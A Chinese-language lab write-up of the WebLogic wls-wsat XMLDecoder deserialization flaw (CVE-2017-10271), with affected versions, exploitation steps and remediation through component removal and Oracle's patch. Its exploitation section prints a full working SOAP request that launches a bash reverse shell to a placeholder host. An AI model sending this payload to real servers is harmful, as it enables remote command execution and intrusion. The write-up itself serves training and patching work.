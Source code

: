 Weblogic wls-wsat XMLDecoder 反序列化漏洞 CVE-2017-10271

# 一，漏洞描述

CVE-2017-10271漏洞产生的原因大致是Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限


# 二，影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

# 三，利用流程

访问地址： `10.10.11.20:51054`

名称：CVE-2017-10271

访问地址`/wls-wsat/CoordinatorPortType11`发现可能存在漏洞

![1](./1.jpg)

发送数据包

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 10.10.11.20:51054
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![2](./2.jpg)

执行命令获得flag

![3](./3.jpg)

通关！

# 四，修复方案

1.临时解决方案
根据攻击者利用POC分析发现所利用的为wls-wsat组件的CoordinatorPortType接口，若Weblogic服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后，再进行恢复。
根据实际环境路径，删除WebLogic wls-wsat组件：
```
rm -f   /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f   /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
重启Weblogic域控制器服务:
```
DOMAIN_NAME/bin/stopWeblogic.sh           #停止服务
DOMAIN_NAME/bin/startManagedWebLogic.sh    #启动服务
```
删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2.官方补丁修复

前往Oracle官网下载10月份所提供的安全补丁

http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html

升级过程可参考：http://blog.csdn.net/qqlifu/article/details/49423839
